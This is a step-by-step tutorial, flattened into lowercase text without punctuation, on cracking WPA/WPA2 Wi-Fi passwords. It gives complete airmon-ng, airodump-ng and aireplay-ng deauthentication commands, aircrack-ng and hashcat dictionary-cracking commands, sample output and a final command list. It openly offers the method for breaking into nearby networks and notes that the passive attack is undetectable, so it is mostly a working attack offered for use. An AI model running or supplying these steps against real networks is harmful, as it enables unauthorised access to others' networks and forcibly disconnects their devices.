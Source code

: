 wi fi cracking crack wpa wpa2 wi fi routers with airodump ng and aircrack ng hashcat this is a brief walk through tutorial that illustrates how to crack wi fi networks that are secured using weak passwords it is not exhaustive but it should be enough information for you to test your own networks security or break into one nearby the attack outlined below is entirely passive listening only nothing is broadcast from your computer and it is impossible to detect provided that you dont actually use the password that you crack an optional active deauthentication attack can be used to speed up the reconnaissance process and is described at the end of this document if you are familiar with this process you can skip the descriptions and jump to a list of the commands used at the bottom for a variety of suggestions and alternative methods see the appendix neal1991 and tiiime have also graciously provided translations to this document and the appendix in chinese if you prefer those versions disclaimer this software tutorial is for educational purposes only it should not be used for illegal activity the author is not responsible for its use dont be a dick getting started this tutorial assumes that you have a general comfortability using the command line are running a debian based linux distro preferably kali linux osx users see the appendix have aircrack ng installed sudo apt get install aircrack ng have a wireless card that supports monitor mode see here for a list of supported devices cracking a wi fi network monitor mode begin by listing wireless interfaces that support monitor mode with bash airmon ng if you do not see an interface listed then your wireless card does not support monitor mode 😞 we will assume your wireless interface name is wlan0 but be sure to use the correct name if it differs from this next we will place the interface into monitor mode bash airmon ng start wlan0 run iwconfig you should now see a new monitor mode interface listed likely mon0 or wlan0mon find your target start listening to 802 11 beacon frames broadcast by nearby wireless routers using your monitor interface bash airodump ng mon0 you should see output similar to what is below ch 13 elapsed 52 s 2017 07 23 15 49 bssid pwr beacons data s ch mb enc cipher auth essid 14 91 82 f7 52 eb 66 205 26 0 1 54e opn belkin 2e8 guests 14 91 82 f7 52 e8 64 212 56 0 1 54e wpa2 ccmp psk belkin 2e8 14 22 db 1a db 64 81 44 7 0 1 54 wpa2 ccmp 14 22 db 1a db 66 83 48 0 0 1 54e wpa2 ccmp psk steveserro 9c 5c 8e c9 ab c0 81 19 0 0 3 54e wpa2 ccmp psk hackme 00 23 69 ad af 94 82 350 4 0 1 54e wpa2 ccmp psk kaitlins awesome 06 26 bb 75 ed 69 84 232 0 0 1 54e wpa2 ccmp psk hh2 78 71 9c 99 67 d0 82 339 0 0 1 54e wpa2 ccmp psk arris 67d2 9c 34 26 9f 2e e8 85 40 0 0 1 54e wpa2 ccmp psk comcast 2eea ext bc ee 7b 8f 48 28 85 119 10 0 1 54e wpa2 ccmp psk root ec 1a 59 36 ad ca 86 210 28 0 1 54e wpa2 ccmp psk belkin dca for the purposes of this demo we will choose to crack the password of my network hackme remember the bssid mac address and channel ch number as displayed by airodump ng as we will need them both for the next step capture a 4 way handshake wpa wpa2 uses a 4 way handshake to authenticate devices to the network you dont have to know anything about what that means but you do have to capture one of these handshakes in order to crack the network password these handshakes occur whenever a device connects to the network for instance when your neighbor returns home from work we capture this handshake by directing airmon ng to monitor traffic on the target network using the channel and bssid values discovered from the previous command bash replace c and bssid values with the values of your target network w specifies the directory where we will save the packet capture airodump ng c 3 bssid 9c 5c 8e c9 ab c0 w mon0 ch 6 elapsed 1 min 2017 07 23 16 09 bssid pwr rxq beacons data s ch mb enc cipher auth essid 9c 5c 8e c9 ab c0 47 0 140 0 0 6 54e wpa2 ccmp psk asus now we wait once youve captured a handshake you should see something like wpa handshake bc d3 c9 ef d2 67 at the top right of the screen just right of the current time if you are feeling impatient and are comfortable using an active attack you can force devices connected to the target network to reconnect be sending malicious deauthentication packets at them this often results in the capture of a 4 way handshake see the deauth attack section below for info on this once youve captured a handshake press ctrl c to quit airodump ng you should see a cap file wherever you told airodump ng to save the capture likely called 01 cap we will use this capture file to crack the network password i like to rename this file to reflect the network name we are trying to crack bash mv 01 cap hackme cap crack the network password the final step is to crack the password using the captured handshake if you have access to a gpu i highly recommend using hashcat for password cracking ive created a simple tool that makes hashcat super easy to use called naive hashcat if you dont have access to a gpu there are various online gpu cracking services that you can use like gpuhash me or onlinehashcrack you can also try your hand at cpu cracking with aircrack ng note that both attack methods below assume a relatively weak user generated password most wpa wpa2 routers come with strong 12 character random passwords that many users rightly leave unchanged if you are attempting to crack one of these passwords i recommend using the probable wordlists wpa length dictionary files cracking with naive hashcat recommended before we can crack the password using naive hashcat we need to convert our cap file to the equivalent hashcat file format hccapx you can do this easily by either uploading the cap file to https hashcat net cap2hccapx or using the cap2hccapx tool directly bash cap2hccapx bin hackme cap hackme hccapx next download and run naive hashcat bash download git clone https github com brannondorsey naive hashcat cd naive hashcat download the 134mb rockyou dictionary file curl l o dicts rockyou txt https github com brannondorsey naive hashcat releases download data rockyou txt crack baby crack 2500 is the hashcat hash mode for wpa wpa2 hash file hackme hccapx pot file hackme pot hash type 2500 naive hashcat sh naive hashcat uses various dictionary rule combination and mask smart brute force attacks and it can take days or even months to run against mid strength passwords the cracked password will be saved to hackme pot so check this file periodically once youve cracked the password you should see something like this as the contents of your pot file e30a5a57fc00211fc9f57a4491508cc3 9c5c8ec9abc0 acd1b8dfd971 asus hacktheplanet where the last two fields separated by are the network name and password respectively if you would like to use hashcat without naive hashcat see this page for info cracking with aircrack ng aircrack ng can be used for very basic dictionary attacks running on your cpu before you run the attack you need a wordlist i recommend using the infamous rockyou dictionary file bash download the 134mb rockyou dictionary file curl l o rockyou txt https github com brannondorsey naive hashcat releases download data rockyou txt note that if the network password is not in the wordfile you will not crack the password bash a2 specifies wpa2 b is the bssid w is the wordfile aircrack ng a2 b 9c 5c 8e c9 ab c0 w rockyou txt hackme cap if the password is cracked you will see a key found message in the terminal followed by the plain text version of the network password aircrack ng 1 2 beta3 00 01 49 111040 keys tested 1017 96 k s key found hacktheplanet master key a1 90 16 62 6c b3 e2 db bb d1 79 cb 75 d2 c7 89 59 4a c9 04 67 10 66 c5 97 83 7b c3 da 6c 29 2e transient key cb 5a f8 ce 62 b2 1b f7 6f 50 c0 25 62 e9 5d 71 2f 1a 26 34 dd 9f 61 f7 68 85 cc bc 0f 88 88 73 6f cb 3f cc 06 0c 06 08 ed df ec 3c d3 42 5d 78 8d ec 0c ea d2 bc 8a e2 d7 d3 a2 7f 9f 1a d3 21 eapol hmac 9f c6 51 57 d3 fa 99 11 9d 17 12 ba b6 db 06 b4 deauth attack a deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack these packets include fake sender addresses that make them appear to the client as if they were sent from the access point themselves upon receipt of such packets most clients disconnect from the network and immediately reconnect providing you with a 4 way handshake if you are listening with airodump ng use airodump ng to monitor a specific access point using c channel bssid mac until you see a client station connected a connected client look something like this where is 64 bc 0c 48 97 f7 the client mac ch 6 elapsed 2 mins 2017 07 23 19 15 bssid pwr rxq beacons data s ch mb enc cipher auth essid 9c 5c 8e c9 ab c0 19 75 1043 144 10 6 54e wpa2 ccmp psk asus bssid station pwr rate lost frames probe 9c 5c 8e c9 ab c0 64 bc 0c 48 97 f7 37 1e 1e 4 6479 asus now leave airodump ng running and open a new terminal we will use the aireplay ng command to send fake deauth packets to our victim client forcing it to reconnect to the network and hopefully grabbing a handshake in the process bash 0 2 specifies we would like to send 2 deauth packets increase this number if need be with the risk of noticeably interrupting client network activity a is the mac of the access point c is the mac of the client aireplay ng 0 2 a 9c 5c 8e c9 ab c0 c 64 bc 0c 48 97 f7 mon0 you can optionally broadcast deauth packets to all connected clients with bash not all clients respect broadcast deauths though aireplay ng 0 2 a 9c 5c 8e c9 ab c0 mon0 once youve sent the deauth packets head back over to your airodump ng process and with any luck you should now see something like this at the top right wpa handshake 9c 5c 8e c9 ab c0 now that youve captured a handshake you should be ready to crack the network password list of commands below is a list of all of the commands needed to crack a wpa wpa2 network in order with minimal explanation bash put your network device into monitor mode airmon ng start wlan0 listen for all nearby beacon frames to get target bssid and channel airodump ng mon0 start listening for the handshake airodump ng c 6 bssid 9c 5c 8e c9 ab c0 w capture mon0 optionally deauth a connected client to force a handshake aireplay ng 0 2 a 9c 5c 8e c9 ab c0 c 64 bc 0c 48 97 f7 mon0 crack password with aircrack ng download 134mb rockyou txt dictionary file if needed curl l o rockyou txt https github com brannondorsey naive hashcat releases download data rockyou txt crack w aircrack ng aircrack ng a2 b 9c 5c 8e c9 ab c0 w rockyou txt capture 01 cap or crack password with naive hashcat convert cap to hccapx cap2hccapx bin capture 01 cap capture 01 hccapx crack with naive hashcat hash file hackme hccapx pot file hackme pot hash type 2500 naive hashcat sh appendix the response to this tutorial was so great that ive added suggestions and additional material from community members as an appendix check it out to learn how to capture handshakes and crack wpa passwords on macos osx capture handshakes from every network around you with wlandump ng use crunch to generate 100 gb wordlists on the fly spoof your mac address with macchanger a chinese version of the appendix is also available attribution much of the information presented here was gleaned from lewis encarnacions awesome tutorial thanks also to the awesome authors and maintainers who work on aircrack ng and hashcat overwhelming thanks to neal1991 and tiiime for translating this tutorial into chinese further shout outs to yizhiheng hiteshnayak305 enilfodne drinkmorecodemore hivie7510 cprogrammer1994 0xe4 hartzell zeeshanu flennic bhusang tversteeg gpetrousov crowchirp and shark0der who also provided suggestions and typo fixes on reddit and github if you are interested in hearing some proposed alternatives to wpa2 check out some of the great discussion on this hacker news post